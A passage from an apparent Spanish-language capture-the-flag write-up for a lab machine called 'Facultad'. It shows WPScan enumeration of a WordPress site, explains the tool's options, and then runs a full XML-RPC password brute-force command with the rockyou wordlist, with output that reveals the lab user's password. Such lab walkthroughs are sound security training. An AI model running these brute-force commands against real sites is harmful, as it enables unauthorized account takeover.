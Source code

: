 ```bash
[+] Data Received: 15.19 MB
[+] Memory used: 447.922 MB
[+] Elapsed time: 00:02:32
```

| Parámetros | Descripción |
|--------------------------|
| *--url*    | Para indicar la URL a escanear. |
| *--enumerate* | Indicando que aplique enumeración, puede ser de usuarios (`u`), de plugins vulnerables (`vp`), de todos los plugins (`ap`), etc. |
| *--plugins-detection* | Para indicar un modo de detección de plugins, se puede elegir entre `passive` (pasivo), `mixed` (mixto) y `agressive` (agresivo). |
| *--no-banner* | Para no mostrar el banner de la herramienta. |

<br>

Encontramos un plugin vulnerable, pero no encontré un Exploit para esa versión del **plugin wp-file-manager**.

Podemos intentar aplicar fuerza bruta al **usuario Facultad**, usando **WPScan** y aprovechando que está activo el **XML-RPC**.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="FuerzaBruta">Aplicando Fuerza Bruta a Login de WordPress con WPScan e Hydra</h2>

Utilicemos al **usuario Facultad** y enfoquemos el ataque para que use el **XML-RPC** de **WordPress**:
```bash
wpscan --url http://facultad.thl/education --password-attack xmlrpc -t 20 -U 'Facultad' -P /usr/share/wordlists/rockyou.txt --no-banner
...
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - Facultad / asdfghjkl                                                                                                                                                              
Trying Facultad / teresa Time: 00:00:06 <                                                                                                             > (420 / 14344812)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: Facultad, Password: asdfghjkl

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Aug 21 14:18:47 2025
[+] Requests Done: 559
[+] Cached Requests: 36
[+] Data Sent: 265.773 KB
[+] Data Received: 273.063 KB
[+] Memory used: 276.258 MB
[+] Elapsed time: 00:00:15
```
